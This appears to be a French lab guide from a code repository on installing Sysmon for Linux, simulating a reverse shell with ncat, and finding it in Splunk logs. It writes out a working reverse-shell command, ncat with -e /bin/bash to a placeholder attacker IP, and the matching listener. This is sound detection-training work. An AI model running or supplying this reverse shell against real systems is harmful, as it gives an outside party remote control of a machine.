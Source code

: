# Surveillance et enquête sur l'exécution de processus suspects

- L’installation de Sysmon pour Linux avec une configuration XML avancée pour détecter plusieurs techniques MITRE ATT&CK.

- [Sysmon for Linux](https://learn.microsoft.com/en-us/sysinternals/downloads/sysmon)

#### Installation de Sysmon for Linux

```sh
wget -q https://packages.microsoft.com/config/ubuntu/$(lsb_release -rs)/packages-microsoft-prod.deb -O packages-microsoft-prod.deb
sudo dpkg -i packages-microsoft-prod.deb

sudo apt-get update
sudo apt-get install sysmonforlinux
```

## Configuration XML avancée

#### Créer un fichier de configuration

```sh
nano sysmon-config.xml
```

#### Puis coller le contenu XML suivant (extrait optimisé et indenté proprement) :

- [Base de configuration recommandée : MSTIC Sysmon Config](https://github.com/microsoft/MSTIC-Sysmon/blob/main/linux/configs/main.xml)

#### Lancer Sysmon avec la configuration

```sh
sysmon -i sysmon-config.xml
```

#### Vérifier que Sysmon fonctionne
 
```sh
sudo systemctl restart sysmon
sudo systemctl status sysmon
```

## Simuler une attaque - Reverse Shell avec ncat

#### Sur la machine d’attaque

```sh
apt install ncat net-tools -y
ncat -lnvp 4444
```

#### Sur la machine compromise (victime) :

```sh
apt install ncat net-tools -y
ncat <IP_ATTACK_MACHINE> 4444 -e /bin/bash
```

#### Vérification de la connexion :

```sh
lsof -i :4444
netstat -tulnp | grep 4444
```

## Analyse dans Splunk (Search & Reporting)

> `Requêtes dans Search & Reporting`

- Affiche tous les logs liés à Sysmon.

```sh
index="linux_os_logs" process=sysmon
```

- Filtre sur les événements identifiés comme techniques de type Command.

```sh
index="linux_os_logs" process=sysmon TechniqueName=Command
```

- Recherche spécifique d’utilisation de ncat.

```sh
index="linux_os_logs" process=sysmon TechniqueName=Command ncat
```
